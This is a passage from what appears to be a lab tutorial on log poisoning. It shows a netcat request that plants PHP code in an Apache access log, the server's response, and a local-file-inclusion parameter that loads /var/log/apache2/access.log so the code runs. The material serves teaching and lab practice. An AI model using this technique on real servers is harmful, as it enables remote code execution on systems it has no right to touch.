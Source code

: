 # Log Poisoning

Log poisoning is a technique where an attacker injects executable code into a web server's log file and then uses an LFI vulnerability to include and execute this log file. This method is particularly stealthy because log files are shared and are a seemingly harmless part of web server operations. In a log poisoning attack, the attacker must first inject malicious PHP code into a log file. This can be done in various ways, such as crafting an evil user agent, sending a payload via URL using Netcat, or a referrer header that the server logs. Once the PHP code is in the log file, the attacker can exploit an LFI vulnerability to include it as a standard PHP file. This causes the server to execute the malicious code contained in the log file, leading to RCE.

For example, if an attacker sends a Netcat request to the vulnerable machine containing a PHP code:

### Sample Request
```bash
$ nc MACHINE_IP 80      
<?php echo phpinfo(); ?>
HTTP/1.1 400 Bad Request
Date: Thu, 23 Nov 2023 05:39:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 335
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at MACHINE_IP.eu-west-1.compute.internal Port 80</address>
</body></html>
```

The code will then be logged in the server's access logs.

### Apache access log containing the injected PHP code

The attacker then uses LFI to include the access log file:
```
?page=/var/log/apache2/access.log
```

Injected PHP code in the web access log has been executed.

To replicate the above demo, you may head to:
```
http://MACHINE_IP/playground.php
```
